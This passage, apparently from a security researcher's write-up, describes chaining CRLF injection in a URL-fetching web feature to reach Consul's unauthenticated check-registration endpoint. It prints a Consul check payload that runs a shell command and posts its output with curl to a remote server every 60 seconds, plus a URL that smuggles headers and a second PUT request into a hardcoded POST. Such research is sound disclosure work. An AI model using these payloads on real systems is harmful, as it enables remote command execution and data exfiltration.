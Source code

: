 Luckily, after a bit of searching I found a reference in the Consul documentation which made mention of an endpoint at `/v1/agent/check/register`; allowing for registration of a 'check command' (arbitrary shell command) via an HTTP PUT request. Although the Consul agent does allow for ACLs to be applied to these endpoints to limit use, this is **not enabled by default** so I thought it was worth a try.

In order to test this I fired up a local VM and installed the Consul agent in order to construct a valid payload and test on a default installation. After a short while, I had the following payload constructed which would execute a shell command and pipe the output to a remote server using an HTTP POST every 60 seconds:

```
{
    "id": "DarkarniumTest",
    "name": "DarkarniumTest",
    "script": "/bin/uname -a | /usr/bin/curl -k -XPOST -d @- https://some-server",
    "interval": "60s",
    "timeout": "5s"
}
```

Ignoring the fact that I was unable to specify a payload in the target web application, I also found that the Consul check registration endpoint endpoint would **NOT** respond to an HTTP POST, only an HTTP PUT. 

### So, PUT from a POST?

The final piece of the puzzle to solve was how to construct an HTTP PUT with a specific JSON body (the check payload above) from a script which was hardcoded to perform HTTP POST with a non user controllable payload. Thinking back to potential caveats with URL parsing, I remembered encountering issues in the past with Ruby and Python HTTP libraries not properly handling `\r\n` (Carriage-Return, Line-Feed) characters in URLs and HTTP headers. The result of this was usually that a user could inject arbitrary HTTP headers or payloads into predefined HTTP requests by tampering with the URL in the right way.

To test whether this was able to be used in this case, I constructed an URL which, if handled incorrectly by the library, should add a `Connection: Keep-Alive` HTTP header to the request and tack on a subsequent HTTP PUT operation after the 'hardcoded' HTTP POST. This initial test URL looked something like the following:

```
https://mockbin.org/bin/UUID?Test1 HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /bin/UUID?Test2 HTTP/1.0\r\n\r\n\r\n
```

In order to test this, I performed a regular request in the web application using a browser and then replayed the request using OWASP ZAP in order to allow for tampering with the payload after the fact.
